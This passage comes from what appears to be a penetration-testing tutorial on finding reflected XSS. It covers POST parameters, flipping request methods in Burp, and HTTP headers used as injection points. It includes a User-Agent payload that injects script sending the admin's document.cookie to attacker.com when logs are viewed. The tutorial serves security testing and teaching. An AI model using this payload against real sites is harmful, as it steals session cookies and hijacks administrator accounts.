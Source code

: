 **Why?**
Many testers forget POST — but reflected XSS **can** happen in POST parameters. Even though it’s harder to deliver (you can’t just send a clickable URL), **it’s still exploitable**.

**Pro tip:**
Use Burp's “**Change Request Method**” feature to flip POST → GET and see if the vuln is reachable with a URL.

This is gold for making the XSS:

* Sharable via email
* Embedded in img/script tags
* Delivered via cross-origin tricks

---

### 🧠 Step 4: Headers Are Inputs Too (Don’t Skip Them!)

> **Most people only test form fields or URL params. But in reality: every part of the HTTP request is an input vector.**

Especially:

| Header            | Why It’s Dangerous                   |
| ----------------- | ------------------------------------ |
| `Referer`         | Often shown in error/debug pages     |
| `User-Agent`      | Reflected in logs or status messages |
| `X-Forwarded-For` | Used by some apps to show client IP  |

**Why it works:**
These headers are often reflected in logs, error messages, or analytics dashboards. Admins view those pages. Boom — your XSS payload executes when they check logs.

---

### 🚨 Example: Header-Based Reflected XSS Chain

1. You inject XSS into the `User-Agent` header:

   ```
   Mozilla/5.0"><script>new Image().src='http://attacker.com/'+document.cookie</script>
   ```
2. App logs this header on an error page.
3. Admin views the error report.
4. Your payload executes in their browser.

> No visible UI. No login needed. All through an invisible string in a header. That’s stealth.

---

### 📌 Summary So Far

| Goal                     | Action                                          | Reasoning                                                |
| ------------------------ | ----------------------------------------------- | -------------------------------------------------------- |
| Detect reflected input   | Use benign string like `myxsstestdmqlwp`        | Avoids false positives, triggers, or interference        |
| Map reflection locations | Look for every spot your input shows up         | These are your targets for payload injection             |
| Understand context       | Identify whether it's HTML, JS, attribute, etc. | Payload must match context to break out and execute code |
| Test all input types     | GET, POST, headers                              | Vulnerabilities may hide in overlooked places            |
| Look beyond basics       | Include HTTP headers like Referer/User-Agent    | Advanced attack delivery options                         |

---